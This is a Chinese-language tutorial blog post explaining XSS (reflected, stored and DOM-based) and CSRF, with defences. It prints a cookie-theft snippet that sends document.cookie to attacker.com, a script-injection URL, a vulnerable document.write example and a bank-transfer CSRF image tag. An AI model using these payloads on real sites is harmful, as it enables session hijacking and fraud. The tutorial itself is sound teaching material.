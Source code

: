 ```yaml
---
title: xss和csrf
date: 2018-07-09 11:02:34
tags: 浏览器
---
```


# xss

> cross site scripting 的缩写，即跨站脚本攻击（为了不与 css 混淆）

- 主要分为三类，反射型、保存型和基于 dom 的 xss 攻击。这些漏洞的基本原理都一样，但是确定和利用漏洞方面又存在很大差异。

## 反射型

- 如果一个 web 程序可以动态的显示用户的错误信息，就有可能产生反射型漏洞
- 显著特征是应用程序没有进行任何过滤和净化措施

### 案例

- 如果一个网站的错误消息是这样显示的，www.xxx.com/error.php?message=sorry,an error occurred，然后服务器根据得到的 message，不进行过滤，复制到错误页面的模板<p>sorry,an error occurred</p>，返回给用户
- www.xxx.com/error.php?message=<script>alert(1)</script>，当用户打开错误页面的时候，就会出现<p><script>alert(1)</script></p>，弹出一个消息框

- 当然攻击者不会很傻的只 alert 一些消息，通常 xss 都会伴随会话劫持，截获通过验证的会话令牌。
- 截获用户的会话后，就可以访问该用户授权访问的所有数据和功能
- 比如攻击构造这样一个 url，message 信息如下

```javascript
let i = new Image();
i.src = "http://attacker.com?cookie=" + document.cookie;
```

- 由于浏览器的同源策略，直接向 attacker.com 发送 cookie 是无法获得 www.xxx.com 的 cookie，但是 img，iframe，scipr 标签可以跨域，这就是该漏洞被成为跨站脚本的原因。

## 保存型

- 脚本通常保存在后端数据库，不经过过滤就存储并且显示给用户
- 与反射性的流程不同的是，保存型需要向服务器提出至少两次请求，第一次将含有恶意代码的数据提交给服务器，服务器将数据保存，第二次是受害者访问含有恶意代码的数据，恶意代码执行
- 与反射型不同的是，保存型不需要一个专门设计的 url 来接受 cookie，只需要将含有恶意代码的页面发给用户，等待受害者访问即可。不过也可以用保存型的漏洞来获取用户 cookie 劫持。
- 如果社交论坛存在保存型的 xss 漏洞，黑客将自己的个人信息一栏修改成恶意的 js 代码，该代码实现两个功能，首先受害者先加自己为好友，然后修改受害者的个人信息为该恶意代码。黑客把个人信息保存并提交给服务器，只需要等受害者访问自己的个人信息页面，浏览器就会执行恶意脚本，然后可怕的“蠕虫”就开始了

## 基于 dom 的 xss 漏洞

- 前两种 xss 漏洞，都表现为一种特殊的模式，就是应用程序提取数据并返回给受害者。而基于 dom 的 xss 不具有这种特点，攻击者是借助于 javascript 来展开攻击的

## 案例

```javascript
let url = document.location;
let message = /message=(.+)$/.exec(url)[1];
document.write(message);
// js脚本中这样写，如果攻击者给受害者发送www.xxx.com/error.php?message=<script>alert(1)</script>，也可以展开xss漏洞攻击
```

- 所以写 js 的前端同学注意了，万一写出了有漏洞的代码，这锅得自己背。

## 解决方案

- 过滤一些关键字
- Cookie 防盗，在 Cookie 中防止放入用户名和密码，对 Cookie 信息进行 MD5 等算法进行多次散列存放，必要时还要对 ip 和 cookie 进行绑定，一旦检测异常，立马让用户重新登录；设置 http-only（不能用 js 脚本进行获取）

# csrf

> cross site request forgery 的缩写，即跨站脚本请求伪造

- 顾名思义是，是伪造请求冒充用户在站内的正常操作。
- 我们知道绝大多数网站是通过 cookie 等方式辨识用户身份（包括服务器端 session 的网站，因为 session id 大多也是保存在 cookie），再予以授权。
- 所以要伪造用户的正常操作，最好是通过 xss 或者链接欺骗等途径，让用户再本机（即拥有身份 cookie 的浏览器端）发起用户所不知道的请求（xss 是实现 csrf 的手段之一）

## 案例

- 一论坛网站的发帖是通过 get 请求访问，点击发帖之后 js 把发帖内容拼接成目标 url 并访问：http://example.com/bbs/create_post.php?title=标题&content=内容
- 那么我在论坛发一贴http://example.com/bbs/create_post.php?title=我是脑残&content=哈哈，只要有用户看到这个链接，那么他们的账户就会在不知情的情况下发布了这一个帖子。
- 如果一家银行用以执行转账操作的 url 为 http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName，那么黑客可以可以再另一个网站上放置如下代码：<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">
- 如果有账户名为 alice 的用户访问了恶意站点，而她之前也刚访问锅银行不久，登陆信息尚未过期，那么她就会损失 1000 元

## 解决方案

- 如何解决这个问题，过滤用户输入，不允许发布这种含有站内操作 url 的链接，这么做可能有点用，但是阻挡不了 csrf，因为攻击者可以通过 qq 发布这个链接，这样点击到这个链接的用户一样会中招。

- 所以对待 csrf，我们的视角需要和对待 xss 有所不同。csrf 不一定要有站内的输入，因为他不属于注入攻击，而是属于请求伪造。被伪造的请求可以是任何来源，而非一定是站内。

- 过滤请求的处理者
  - 检查 Referer 字段：可以检查是否来源于该域名（但是请求者是可以更改 http 请求头的，他可以给这个任何值）
  - 添加校验 token：也就是请求令牌，由于 csrf 的本质在于攻击者欺骗用户去访问自己设置的地址，所以如果要求再访问敏感数据请求的时候，要求用户浏览器提供不保存在 cookie 中，并且攻击者无法伪造的数据作为校验，那么攻击者就无法执行 csrf 攻击。这种数据通常是表单中的一个数据项。服务器将其生成并附加在表单中，其内容是一个伪乱数。当客户端通过表单提交请求的时候，这个伪乱数也一并提交上去校验。
- 改良站内 api 的设计，对于发布帖子这类创建资源的操作，应该只接受 post 请求，而 get 请求应该只浏览。最好是采用 REST 风格设计。

# 推荐阅读

- [总结 xss 与 csrf 两种跨站攻击](https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/)
